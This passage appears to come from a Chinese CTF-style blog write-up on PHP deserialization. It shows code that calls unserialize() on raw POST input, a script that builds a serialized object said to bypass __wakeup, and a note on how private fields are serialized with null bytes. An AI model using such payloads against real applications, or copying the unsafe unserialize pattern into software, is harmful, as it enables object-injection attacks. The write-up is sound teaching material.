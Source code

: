 ```
    }
    
    public function __call($method, $args)
    {
        echo "__call ";
    }
}
if(isset($_POST['pop'])){
    @unserialize($_POST['pop']);
}
```

payload：

```
<?php
class A
{
    public $info;
    private $end = "1";

    public function __destruct()
    {
    }
}

class B
{
    public $znd;

    public function __wakeup()
    {

    }
    
    public function __call($method, $args)
    {
    }
}
$test=new A();
$test->info=new B();
echo serialize($test);
#O:1:"A":2:{s:4:"info";O:1:"B":1:{s:3:"znd";N;}s:6:"Aend";s:1:"1";}
```

![](https://fushuling-1309926051.cos.ap-shanghai.myqcloud.com/2023/03/1-22.jpg)

成功绕过wakeup

**原理：**声明的字段为保护字段，在所声明的类和该类的子类中可见，但在该类的对象实例中不可见。因此保护字段的字段名在序列化时，字段名前面会加上`\0*\0`的前缀。这里的\0 表示 ASCII 码为 0 的字符(不可见字符)，而不是 \0 组合。也就是说当实例化的类里存在私有属性时比如private时，序列化它时会出现字符长度那里会出现不可见字符，比如：

![](https://fushuling-1309926051.cos.ap-shanghai.myqcloud.com/2023/04/1-1-1024x360.png)
